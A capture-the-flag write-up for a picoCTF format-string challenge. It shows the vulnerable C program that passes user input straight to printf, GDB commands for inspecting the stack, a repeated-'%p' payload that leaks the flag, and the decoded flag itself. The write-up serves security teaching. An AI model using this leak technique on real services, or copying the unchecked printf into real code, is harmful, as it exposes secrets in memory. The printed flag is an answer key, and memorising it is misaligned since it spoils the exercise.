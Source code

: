 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/qugoytN.png
points: 300
solves: 2308
tags: picoCTF pwn pwn/format-string
date: 1337-01-01
comments: false
---
```


Story telling class 1/2  
I'm just copying and pasting with this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/flag-leak-vuln). What can go wrong? You can view [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/flag-leak-vuln.c) here. And connect with it using:  
`nc saturn.picoctf.net [port #]`  

---

We're given a binary ELF file and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

Hold on, we're calling `readflag()` during our program execution in `vuln()` -- doesn't that mean that the flag, i.e. `FILE *f`, will be stored in the stack? Since it is a local variable declared and initialized during the function call, the actual values of the flag should definitely be located somewhere in the stack. Let's test our theory out in GDB.  

First create a `flag.txt` and fill it with some text you'll recognize, enable `vuln`'s execution, and launch GDB.  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">chmod +x vuln
nano flag.txt
gdb vuln</code>
</pre>

Now let's set a breakpoint after input is received to see what stack offset our input is at and if the flag is in the stack.  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">disass vuln 
b *vuln+95 # inserts breakpoint at the `<puts@plt>` function call
r
x/100x $esp # outputs current stack for 100 bytes</code>
</pre>


After the following sequence of commands, you will notice that  user input lies at `$esp+0x10` and the flag lies at some later offset in the stack depending on the size of the user input.    

Since the flag lies on the stack, we can make use of the format string `%p`, the format specifier for addresses, to output bytes on the stack and thus obtain the flag.  
Submit a payload of `%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p` to the program (this can be easily written by activating python in terminal and writing `print(‘%p’*N)`, where N is the number of %p’s you need. The maximum of N is 63, in this case, as the scanf function has a buffer of 127 bytes.)  
Note that each %p outputs 4 bytes on the stack. Since each %p itself takes up 2 bytes on the stack, each %p we add is essentially letting us look an additional 2 bytes into the stack.  
Remove the `0x`'s and `(nil)`'s and put it into a hex to ascii converter.  
Notice that the hex string `6f6369707b4654436b34334c5f676e3167346c466666305f3474535f395f6b63303666357d373136` should return the ascii string:  

    ocip{FTCk43L_gn1g4lFff0_4tS_9_kc06f5}716

Every four characters is reversed due to little endianness, thus, to get the flag, reverse every group of four characters to return:  

    picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}
